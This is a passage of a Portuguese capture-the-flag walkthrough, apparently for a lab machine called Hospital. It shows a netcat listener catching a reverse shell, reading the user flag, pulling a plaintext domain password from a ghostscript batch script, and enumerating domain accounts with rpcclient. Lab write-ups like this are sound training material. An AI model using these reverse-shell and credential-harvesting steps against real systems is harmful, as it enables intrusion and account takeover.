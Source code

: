 Antes de enviar o próximo e-mail, inicie o seu netcat.
```
nc -lvnp 4444
listening on [any] 4444 ...
```

Após enviar o e-mail, nosso shell reverso estará pronto.

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.11.241] 6124
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\drbrown.HOSPITAL\Documents>
```

## User Flag

Para encontrar a user flag, basta navegar até o Desktop do drbrown.
```
C:\Users\drbrown.HOSPITAL>cd Desktop
C:\Users\drbrown.HOSPITAL\Desktop>type user.txt
type user.txt
7f785f1abc*******fbc61fd9502c6c9c
```

## Root Flag

Procurando pelo ghostscript, foi possível descobrir a senha do Rpcclient.

```
C:\Users\drbrown.HOSPITAL\Documents>type ghostscript.bat
type ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
```

Após verificar Rpccliente, identifiquei que as informações de administrador é compartilhada com as de guest.

```
rpcclient $> querydispinfo
index: 0x2054 RID: 0x464 acb: 0x00020015 Account: $431000-R1KSAI1DGHMH	Name: (null)	Desc: (null)
index: 0xeda RID: 0x1f4 acb: 0x00004210 Account: Administrator	Name: Administrator	Desc: Built-in account for administering the computer/domain
index: 0x2271 RID: 0x641 acb: 0x00000210 Account: drbrown	Name: Chris Brown	Desc: (null)
index: 0x2272 RID: 0x642 acb: 0x00000210 Account: drwilliams	Name: Lucy Williams	Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xf0f RID: 0x1f6 acb: 0x00020011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0x2073 RID: 0x465 acb: 0x00020011 Account: SM_0559ce7ac4be4fc6a	Name: Microsoft Exchange Approval Assistant	Desc: (null)
index: 0x207e RID: 0x46d acb: 0x00020011 Account: SM_2fe3f3cbbafa4566a	Name: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}	Desc: (null)
index: 0x207a RID: 0x46c acb: 0x00020011 Account: SM_5faa2be1160c4ead8	Name: Microsoft Exchange	Desc: (null)
index: 0x2079 RID: 0x46b acb: 0x00020011 Account: SM_6e9de17029164abdb	Name: E4E Encryption Store - Active	Desc: (null)
```